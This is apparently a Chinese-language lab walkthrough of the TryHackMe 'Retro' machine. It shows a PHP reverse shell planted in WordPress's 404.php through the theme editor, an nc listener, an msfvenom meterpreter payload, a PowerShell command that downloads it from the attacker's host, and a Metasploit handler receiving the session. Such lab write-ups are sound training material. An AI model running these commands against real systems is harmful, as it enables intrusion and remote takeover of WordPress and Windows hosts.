 > xfreerdp /u:wade /v:10.10.10.216

同时我们可以用上面的凭证登录wordpress
wordpress的渗透套路是，一旦得到了管理员的登录账户就去到```Appearance->Theme Edlitor```里编辑源代码

我一般把webshell写到```404.php```这个页面，然后在前台访问一个不存在的页面，触发反弹shell

我们把[windows版本reverse_shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php)写到404.php，拿到webshell
```
┌──(root💀kali)-[~/tryhackme]
└─# nc -nlvp 4242                
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.10.216] 49792
SOCKET: Shell has connected! PID: 3436
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro>whoami
iis apppool\retro

```


我们用msfvenom生成一个稳定的shell
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.21.169 LPORT=4444 -f exe > shell_64.exe

用webshell上传到靶机
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/shell_64.exe','C:\users\public\Downloads\shell_64.exe')"

把nc和wget下载到靶机，以便后续渗透使用,经测试```C:\users\public\Downloads```是可写的：


在远程桌面，用wade的账号点击```shell_64.exe```，收到wade的反弹shell

```
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/multi/handler 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Sending stage (200262 bytes) to 10.10.10.216
```